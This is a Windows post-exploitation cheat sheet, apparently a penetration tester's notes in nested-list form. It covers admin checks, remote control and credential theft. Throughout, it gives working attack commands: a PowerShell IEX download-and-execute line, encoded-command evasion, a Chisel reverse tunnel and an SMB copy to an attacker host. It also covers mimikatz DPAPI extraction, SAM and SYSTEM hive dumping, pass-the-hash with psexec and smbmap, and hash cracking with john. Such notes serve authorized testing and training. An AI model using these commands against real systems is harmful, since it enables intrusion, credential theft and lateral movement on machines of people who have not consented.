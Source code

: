 

- checklist
  - Administrator is enabled?
    - runas /user:Administrator cmd.exe
    - UAC does not work with Administrator account.
    - All processes run with privileges
  - Are there any users who belong to the administrators group?
    - UAC bypass is required.
  - Administrator's 'password last set'
    - compare with file timestamps.



- remote control
  - psexec
    - users must  belong to the "Administrators" group
  - winrm, smbexec
    - winrm port 5985
  - [unicorn](https://gitlab.com/pentest-tools/unicorn)
    - powershell downgrade attack
  - powershell
    - encoding
      - echo -n "command" | iconv --to-code UTF-16LE | base64 -w 0
      - powershell -EncodedCommand
      - powershell -enc
    - download & exec
      - IEX (IWR http://example.com -UseBasicParsing)
    - bypass
      - type file.ps1 | powershell -noprofile -
      - cmd /c powershell
  - netcat
    - netcat may work when meterpreter don't work,
  - copy target to host
    - smbserver -smb2support public ./
    - copy file \\\\191.168.1.1\public\
  - [chisel](https://github.com/jpillora/chisel)
    - Chisel is a fast TCP/UDP tunnel
    - chisel server -p my_port --reverse
    - chisel client server_ip:server_port R:server_port:target_ip:target_port
  - meterpreter
    - migrate
    - kiwi_cmd



- credentials
  - cmdkey /list
    - Target: Domain:interactive=DOMAIN_NAME\user_name
    - Type: Domain Password
    - runas /user:domain_name\user_name /savecred  rshell.exe
  - DPAPI
    - mimikatz
    - whoami /user
    - dpapi::masterkey /in:file_name /sid:my_sid /password:my_password
    - dpapi::cred /in:file_name
  - SAM (/Window/System32/config)
    - privileged (Administrator) (Windows 7/ 8/ 10)
      - reg.exe save hklm\sam c:\temp\sam.save
      - reg.exe save hklm\system c:\temp\system.save
    - impacket-secretsdump  -sam SAM -system SYSTEM  local
    - pass the hash
      - smbmap -u user -p lmhash:nthash -H example.com
      - impacket-psexec -hashes lmhash:nthash user@example.com
    - decrypt
      - john --format=NT --wordlist=rockyou.txt hash.txt
      - NTLM